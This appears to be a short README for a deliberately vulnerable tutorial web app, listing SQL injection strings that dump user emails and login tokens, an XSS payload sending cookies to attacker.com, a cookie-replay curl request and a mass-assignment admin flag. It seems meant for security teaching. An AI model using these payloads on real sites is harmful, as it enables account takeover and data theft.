 # Michael Hartl Sample App + Security Vulnerabilities
=====================================================

SQL injection
-------------
* a' ) or 1 = 1  --  
* XXX') union select 1, email, 1, 1, 1 from users --  
* XXX') union select 1, remember_token, 1, 1, 1 from users --  

    curl "http://www.blog.com:3000/" --cookie remember_token=


CSS
---
* Post this
<pre>
(<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>)
</pre>


XSRF
----
    curl "http://www.blog.com:3000/microposts/7" --cookie remember_token=XXXXXXXX


Mass Asignment
--------------
user%5Badmin%5D=true
